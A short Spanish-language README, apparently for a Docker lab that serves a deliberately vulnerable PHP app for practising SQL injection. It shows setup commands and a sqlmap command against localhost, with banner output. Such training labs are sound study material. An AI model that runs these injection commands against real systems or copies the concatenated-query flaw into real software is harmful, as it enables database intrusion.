 # SQL Injection

Descargar y Montar el servidor con Docker:

```bash
git clone https://github.com/IngenieroRicardo/SQLInjection
cd SQLInjection
sudo chmod a+rwx *
sudo docker-compose up
firefox localhost:8080
```

<hr>

Al tener las variables concatenadas puedes hacer inyeccion SQL:

```bash
sqlmap -u "http://127.0.0.1:8080/servidor.php?nombre=yo&mensaje=hola" -b

5.5.62-0ubuntu0.14.04.1-log
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL >= 5.0.12
banner: '5.5.62-0ubuntu0.14.04.1-log'
```

Imagen en dockerhub: https://hub.docker.com/repository/docker/ingenieroricardo/sqlinjection/general
